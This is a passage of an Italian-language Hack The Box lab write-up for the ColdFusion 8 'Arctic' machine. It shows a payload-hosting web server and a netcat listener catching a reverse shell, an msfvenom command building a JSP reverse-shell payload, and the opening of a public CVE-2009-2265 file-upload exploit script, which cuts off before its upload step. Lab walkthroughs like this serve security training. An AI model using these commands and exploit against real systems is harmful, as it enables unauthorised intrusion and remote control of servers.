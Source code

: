 Nella nostra directory dove abbiamo il payload tiriamo su un server per poter scaricare il paylod
dalla macchina target
```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

lanciamo il task salvato precendetemnte e otteniamo una shell
```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.11] 51613
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

## METODO SENZA AUTENTIFICAZIONE ADMIN

Creiamo una payload .jsp con il seguente comando:
```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.53 LPORT=4444 -f raw > shell2.jsp
Payload size: 1497 bytes
```

Attaraverso questo script riusiamo a caricare il payload creato in precenza
https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108

```bash
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)
```